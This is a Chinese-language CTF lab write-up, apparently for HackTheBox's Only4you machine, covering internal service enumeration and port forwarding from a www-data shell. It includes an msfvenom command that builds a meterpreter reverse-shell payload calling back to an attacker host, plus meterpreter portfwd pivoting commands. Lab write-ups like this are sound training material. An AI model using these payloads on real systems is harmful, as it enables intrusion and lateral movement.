 看了下用户flag不在这个用户。home目录有两个用户：dev、john。  
姑且看了下SUID等，没发现能提权。继续探索期望进行横向移动。


## 探索

枚举到本地开放端口时，发现开着挺多服务：
```bash
www-data@only4you:~/only4you.htb$ netstat -anot
netstat -anot
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0     14 10.10.11.210:33262      10.xx.xx.xx:4444        ESTABLISHED on (0.28/0/0)
tcp        0      1 10.10.11.210:49654      8.8.8.8:53              SYN_SENT    on (0.30/2/0)
tcp        0      0 127.0.0.1:3306          127.0.0.1:49928         TIME_WAIT   timewait (13.30/0/0)
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```

都curl看看。先 `curl -I` 看看响应报头

- **127.0.0.1:8001，302，不过Location字段会重定向到 `/login`，那边会响应200。**
- 127.0.0.1:33060，`curl: (1) Received HTTP/0.9 when not allowed`，报错？
- 127.0.0.1:3306，同上。不过一般都是mysql。
- **127.0.0.1:3000，200。**
- 127.0.0.1:7687，`curl: (52) Empty reply from server`
- **127.0.0.1:7474，200。**

有几个响应200的本来想curl一下看看网页源码，不过之后要进行更深的分析的话光靠curl还是好麻烦。看看能不能弄个端口转发什么的……

### 端口转发

- 之前一直听说[frp](https://github.com/fatedier/frp)、Ngrok等
- 最近还知道有个[Sliver C2](https://github.com/BishopFox/sliver)好像是对标CS的？
- 后来看WP有人用[chisel](https://github.com/jpillora/chisel)
- 以及群里有师傅说原生metasploit有点鸡肋，推荐[Viper - 炫彩蛇](https://www.yuque.com/vipersec/help/olg1ua)
- 自己比较熟悉的是metasploit就先试试这个

#### metasploit

首先生成payload：
```bash
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=6666 -f elf > p.elf
```

发送到目标，执行后配置端口转发。  
*踩坑：`-L` 选项是指定tun0网卡。最开始指定了环回IP自己都没意识到问题所在……当然不用 `-L` 选项直接监听所有网卡倒也行。*
```bash
meterpreter > portfwd add -L 10.xx.xx.xx -l 3000 -p 3000 -r 127.0.0.1
[*] Forward TCP relay created: (local) 10.xx.xx.xx:3000 -> (remote) 127.0.0.1:3000

meterpreter > portfwd 

Active Port Forwards
====================

   Index  Local           Remote            Direction
   -----  -----           ------            ---------
```